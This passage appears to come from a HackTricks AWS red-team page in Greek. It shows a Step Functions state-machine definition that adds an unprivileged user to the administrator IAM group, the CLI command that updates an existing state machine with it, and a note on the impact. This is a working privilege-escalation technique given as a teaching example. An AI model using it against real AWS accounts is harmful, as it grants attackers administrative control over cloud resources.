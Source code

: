 ```json
"Next": "AddUserToGroup"
},
"AddUserToGroup": {
"Type": "Task",
"Parameters": {
"GroupName": "administrator",
"UserName": "unprivilegedUser"
},
"Resource": "arn:aws:states:::aws-sdk:iam:addUserToGroup",
"Next": "End PassState"
},
"End PassState": {
"Type": "Pass",
"End": true
}
}
}
```
{% endtab %}
{% endtabs %}

* **Εντολή** που εκτελέστηκε για **να ενημερώσει** **την κανονική μηχανή κατάστασης**:

{% code overflow="wrap" %}
```bash
aws stepfunctions update-state-machine --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:HelloWorldLambda --definition file://StateMachineUpdate.json
{
"updateDate": "2024-07-10T20:07:10.294000+02:00",
"revisionId": "1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f"
}
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη εκτέλεση και χειρισμός ροών εργασίας και πρόσβαση σε ευαίσθητους πόρους, που μπορεί να οδηγήσει σε σημαντικές παραβιάσεις ασφάλειας.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}
